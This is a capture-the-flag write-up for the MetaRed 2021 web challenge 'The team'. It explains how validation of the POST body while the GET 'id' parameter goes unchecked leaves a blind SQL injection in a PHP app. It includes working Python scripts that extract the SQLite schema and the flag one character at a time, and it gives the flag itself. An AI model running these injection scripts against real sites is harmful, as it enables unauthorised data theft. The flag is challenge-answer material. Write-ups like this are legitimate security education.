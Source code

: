 # ## The team

**Author:** randN
**Category:** web
**Difficulty:** medium

## Description
```
The students created a web app to present the course team, but sanitizing PHP inputs is hard. Are you able to help us finding the mistake?
```

## Solve

Looking into the page provided we are presented with a list of records that have some hyperlinks, but only the **View Record** works. Accessing one record:

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/the_team/images/view_record.png?raw=true)

A **POST** request is executed, which is quite odd. Analysing the source code of the home page, we can see that all the view records have a form that executes a **POST**, and sends a url parameter at the same time.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/the_team/images/home_records.png?raw=true)

Fuzzing the url parameter with _sqlmap_ gives no results. Doing the same with a **POST** request sending **id=1** in the body also gives no results. The description talks about wrong sanitization, so there must be a validation put in place that uses  **PHP** HTTP GET variable (\$\_GET) and HTTP POST variable (\$\_POST) to validate input.

Let's try something to check this theory:

``` python
import requests
import urllib

payload = urllib.parse.quote_plus(' and 1 = 2')
r = requests.post('http://ctf-metared-2021.ua.pt:24003/read.php?id=1'+payload, data={'id':1})
print(r.text)
```

If we execute this python script the page presented will not bring the information for the record with **id=1**. But if we send ** and 1 = 1** we get the record, so there is a _Blind SQL injection_ vulnerability present.

Now we just need to elaborate the script more. First, let's try get information about the tables. By trial and error, we will see that the DBMS is sqlite.

```python
import urllib
import string

# Get the sql from the tables
result = ''
count = 0
offset = 0

while True:
    for char in string.printable:
        position = len(result) + 1
        payload = f" AND '{char}' IN (SELECT SUBSTR(sql,{position},1) FROM sqlite_master WHERE type='table' AND name NOT LIKE 'sqlite_%' ORDER BY name LIMIT 1 OFFSET {offset})"
        payload = urllib.parse.quote_plus(payload)
        r = requests.post('http://ctf-metared-2021.ua.pt:24003/read.php?id=1'+payload, data={'id':1})
        if 'randN' in r.text:
            result += char
            print(result)
            count = 0
        else:
            count += 1
    if count >= 200:
        print(f'Table name: {result} Offset: {offset}')
        result = ''
        offset +=1

```

This will give us the information about the tables.

![Alt text](https://github.com/uac-ctf/MetaRed2021-5th-Writeups/blob/master/web/the_team/images/tables.png?raw=true)

Now we just need to get the flag:

```python
import urllib
import string

# Get the sql from the tables
result = ''
count = 0
offset = 0

while True:
    for char in string.printable:
        position = len(result) + 1
        payload = f" AND '{char}' IN (SELECT SUBSTR(flag,{position},1) FROM flag)"
        payload = urllib.parse.quote_plus(payload)
        r = requests.post('http://ctf-metared-2021.ua.pt:24003/read.php?id=1'+payload, data={'id':1})
        if 'randN' in r.text:
            result += char
            print(result)

```

## Flag
CTFUA{SqLi_is_still_4_th1ng}

